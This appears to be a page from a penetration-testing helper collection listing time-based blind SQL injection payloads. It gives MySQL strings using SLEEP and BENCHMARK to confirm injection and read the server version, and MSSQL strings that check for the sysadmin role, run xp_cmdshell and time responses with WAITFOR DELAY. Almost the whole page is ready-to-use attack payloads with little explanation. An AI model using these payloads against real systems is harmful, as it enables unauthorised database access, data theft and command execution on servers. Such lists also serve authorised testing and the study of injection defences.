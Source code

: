 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - webapp-pentesting
  - server-side-attack
  - blind-sql-injection
---
```

# Time-based Payloads

## MySQL

Inject time-based blind payloads

```
' OR IF(1=1, SLEEP(5), 0)#

' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - '
```

Grab version

```
' OR IF(1=1, SLEEP(5), 0) UNION SELECT (SELECT version())#
```

## MSSQL

```
' IF (SELECT IS_SRVROLEMEMBER('sysadmin')) = 1 EXEC xp_cmdshell('echo Enabled')

' IF (SELECT CASE WHEN (SELECT IS_SRVROLEMEMBER('sysadmin')) = 1 THEN WAITFOR DELAY '0:0:16' ELSE 0 END) = 1

' IF (SELECT IS_SRVROLEMEMBER('sysadmin')) = 0 EXEC xp_cmdshell('echo Disabled')

' IF (SELECT IS_SRVROLEMEMBER('sysadmin')) = 0 WAITFOR DELAY '0:0:16' ELSE 0 END) = 1

' IF (SELECT SUBSTRING(@@version, 1, 1)) = '1' WAITFOR DELAY '0:0:16'
```

---
## References

### WebSec

- [WebSec: SQL Injection Knowledge Base](https://www.websec.ca/kb/sql_injection)